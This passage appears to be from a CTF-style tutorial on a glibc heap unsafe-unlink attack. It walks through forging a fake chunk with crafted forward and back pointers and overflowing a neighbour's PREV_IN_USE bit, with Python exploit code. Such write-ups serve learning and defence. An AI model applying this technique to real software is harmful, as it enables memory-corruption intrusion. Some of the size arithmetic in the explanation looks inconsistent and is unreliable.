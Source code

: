 When `free` combines chunks it verifies the following checks

    fwd->bk = current_chunk
    bk->fwd = current_chunk

Luckily we will know a place where a pointer to `current_chunk` sits in memory.
Our chunk array is predictable and does not move because PIE is not enabled. To
mount this attack we need to first create 5 chunks. All must be large enough to
not goto fastbin when free'd. Make sure the chunk size ends in `8`. Fill index
3 entirely with non-null data.

    size = 0xc8

    # allocate 5 chunks
    allocate(size, b"B")            # 0
    allocate(size, b"B")            # 1
    allocate(size, b"B")            # 2
    allocate(size, size*b"A")       # 3
    allocate(size, b"B")            # 4

We will now craft a fake chunk inside of index `3`. We will also overflow into
the size field of index 4 so that we can change the `PREV_IN_USE` bit to be
disabled.

    payload = p64(0)                          # prev_size
    payload += p64(size-0x10+9)               # size + PREV_IN_USE
    payload += p64(0x6020c0)                  # fwd
    payload += p64(0x6020c8)                  # bk
    payload += (size - len(payload) - 8)*b"C" # filler
    payload += p64(size-8)                    # neighboring chunks PREV_SIZE
    
    # finally set the neighboring chunks size field to not have PREV_IN_USE
    payload += (size + 8 & 0xff).to_bytes(1, "little") 
    edit(3, payload)

Notice a few interesting things about the fake chunk that we have crafted.
First when we use the size field to create our fake size we subtract `0x10` but
then add `0x9`. This is because when we request a chunk of size `0xc8` we are
actually given a chunk of size `0xb0`. This is handled behind the scenes 
because our chunk needs it's `8` byte size field. We add `0x9` to our size 
field becuase the `PREV_IN_USE` bit needs to be set in our fake chunk to avoid
combining twice.

The second interesting thing about our fake chunk is the fwd and bk pointers.
Recall the free chunk metadata from above. Now examine what the chunk list will
look like after we have allocated 5 chunks

    0: <heap ptr>               # prev_size
    1: <heap ptr>               # size
    2: <heap ptr>               # fwd
    3: our chunk address        # bk
    4: victim chunk address     # data
